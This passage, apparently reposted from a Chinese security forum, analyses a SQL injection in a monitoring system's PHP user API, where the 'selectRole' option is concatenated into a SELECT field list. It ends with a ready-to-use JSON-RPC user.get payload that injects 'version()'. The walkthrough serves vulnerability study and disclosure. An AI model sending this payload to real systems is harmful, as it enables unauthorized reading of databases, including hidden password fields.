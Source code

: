 可以看出这里在解析传入的参数。首先将传入的参数合并到参数模板中，然后根据合并后的参数调整SQL语句的from  
、where  
和limit  
等子句，然后查询用户表中所有字段  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOBjxpPIsXeepSF1TphHica9qnQdZ806p5ShpUysxwUQBHFTBFwBYGicaicu10Wx6fQUAELfkgepCfUA/640?wx_fmt=png&from=appmsg "")  
  
fetch  
结果集后，unset  
了passwd这个敏感字段，所以预期这里的结果是获取不到passwd这个字段的  
```
while ($user = DBfetch($res)) {  unset($user['passwd']);  if ($options['countOutput']) {    $result = $user['rowscount'];  }  else {    $userIds[$user['userid']] = $user['userid'];    $result[$user['userid']] = $user;  }}
```  
  
处理完查询的结果集后，又向结果集中添加了一些对象，这里调用了CUser#addRelatedObjects()  
这个方法，跟进  
> Adds the related objects requested by "select*" options to the resulting object set.  
  
```
protected function addRelatedObjects(array $options, array $result) {$result = parent::addRelatedObjects($options, $result);$userIds = zbx_objectValues($result, 'userid');// ......// adding user roleif ($options['selectRole'] !== null && $options['selectRole'] !== API_OUTPUT_COUNT) {    if ($options['selectRole'] === API_OUTPUT_EXTEND) {      $options['selectRole'] = ['roleid', 'name', 'type', 'readonly'];    }    $db_roles = DBselect(      'SELECT u.userid'.($options['selectRole'] ? ',r.'.implode(',r.', $options['selectRole']) : '').      ' FROM users u,role r'.      ' WHERE u.roleid=r.roleid'.      ' AND '.dbConditionInt('u.userid', $userIds)    );    foreach ($resultas$userid => $user) {      $result[$userid]['role'] = [];    }    while ($db_role = DBfetch($db_roles)) {      $userid = $db_role['userid'];      unset($db_role['userid']);      $result[$userid]['role'] = $db_role;    }  }return$result;}
```  
  
可以看到这个方法在adding user role  
这个功能点时，将用户可控的options参数内容直接拼接到了SQL语句中，于是造成了SQL注入。并且查询结果会存进$result  
数组中返回，最终以 json 形式返回到客户端。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOBjxpPIsXeepSF1TphHica9DGicKWHicgx3mQ0F533UTWYNonHia3bfhTK1duBQaeDFQURCYkxZBiaZrg/640?wx_fmt=png&from=appmsg "")  
  
并且这里注入的位置在查询的字段名处，可利用度相当高，于是可以轻松构造相关恶意语句  
```
{"jsonrpc": "2.0", "method": "user.get", "params": {"selectRole": ["roleid, version()", "roleid"], "userids": "1"}, "auth": "2ae264ef7c19d2c2016a302c64e974c6", "id": 1}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOBjxpPIsXeepSF1TphHica9ib2vbEDLYmIHnYcIicNjOWic8ECvKqIz4dW3Q21XwKT4PWdZrtOSDQctg/640?wx_fmt=png&from=appmsg "")  
  
来源：https://forum.butian.net/article/639ph0ebus  
  
作者：ph0ebus  
  
